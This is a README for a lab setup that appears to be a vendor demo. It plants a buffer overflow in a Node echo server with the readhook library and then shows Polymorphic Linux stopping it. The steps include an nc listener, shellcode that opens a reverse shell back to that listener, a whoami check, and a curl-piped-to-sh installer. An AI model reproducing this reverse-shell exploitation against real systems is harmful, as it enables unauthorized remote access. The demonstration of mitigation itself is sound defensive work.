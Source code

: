 # node-echo-server
Test bed for using readhook to hook node-echo-server application.
## Running
```sh
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```
## Stopping
```sh
docker kill echo
```
## Running interactively
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
node echo-server.js
```
## Polyverse Polymorphic Linux
### 1: Setup Listener for Reverse Shell
#### 1.1: Shell-1: Start a listener for the remote shell to connect to
```sh
nc -kl 5555
```
### 2: Start Server with Readhook
#### 2.1: Shell-2: Start the container with an interactive shell
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
```
### 2.2: Shell-2: Install readhook
```sh
apk update && apk add curl wget ca-certificates && update-ca-certificates
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
```
#### 2.3: Shell-2: Run the echo-server with readhook in front of libc
```sh
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```
#### 2.4: Shell-3: Test that the echo-server is running as expected
```sh
curl localhost:8080/echo-this-line-of-text
```
### 3: Generate Shell-Code
#### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```sh
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```
#### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```sh
curl localhost:8080/$shellCode
```
#### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```sh
ls && whoami && exit
```
### 4: Install Polyverse Polymorphic Linux
#### 4.1: Shell-2: Add curl and Polyverse Distros
```sh
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
#### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```sh
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```
#### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```sh
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```
#### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```sh
curl localhost:8080/$shellCode
```
#### 4.5: Shell 1: Confirm that nobody phoned-home to the listener
#### 4.6: Shell 2: Confirm that node terminated abnormally

